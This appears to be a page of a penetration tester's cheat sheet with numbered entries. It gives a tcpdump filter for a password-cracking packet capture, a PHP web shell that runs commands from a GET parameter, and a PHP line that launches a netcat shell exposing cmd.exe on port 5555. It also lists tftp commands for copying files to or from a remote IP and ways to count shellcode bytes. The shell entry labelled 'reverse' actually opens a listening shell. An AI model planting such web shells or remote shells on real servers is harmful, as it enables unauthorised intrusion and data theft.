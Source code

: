 
ex ACK and PUSH : 00011000 = 24 in decimal
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap






==================
135
Php cmd execution code
php one line script
php cmd script


<?php echo shell_exec($_GET['cmd']);?>


for one line outputs you can use php system command.




=================
136
php execute system command  starting a reverse shell
<?php echo shell_exec("nc.exe -nlvp 5555 -e cmd.exe");?>




===================


====================
138
copy files via tftp
tftp -l <local file> -r <remote file> -p <remote ip>


tftp -g -r <remote file> <remote ip>






===================


139
wc


count chars lines bytes


count the number of bytes in a shell code
cat shell  | grep -o x | wc -l


count words
root@kali:~/BO1# wc mem-shell -w




=====================
diff command
